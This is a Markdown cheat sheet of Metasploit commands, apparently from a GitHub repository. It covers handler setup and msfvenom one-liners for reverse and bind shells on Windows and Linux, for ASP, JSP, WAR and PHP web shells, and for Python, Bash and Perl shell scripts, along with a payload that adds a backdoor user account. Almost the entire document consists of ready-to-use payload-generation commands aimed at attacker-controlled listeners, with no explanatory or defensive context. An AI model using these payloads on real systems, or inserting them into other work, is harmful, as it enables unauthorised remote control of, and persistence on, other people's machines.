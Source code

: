 # Metasploit Handler:
```
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## List payloads:
```
msfvenom -l
```

# Non-Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86 	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads:
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Scripting Payloads:
```
Python	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Binaries Payloads:
```
Linux Bind Shell	msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Reverse Shell	msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```


# Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Meterpreter Web Payloads:
```
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

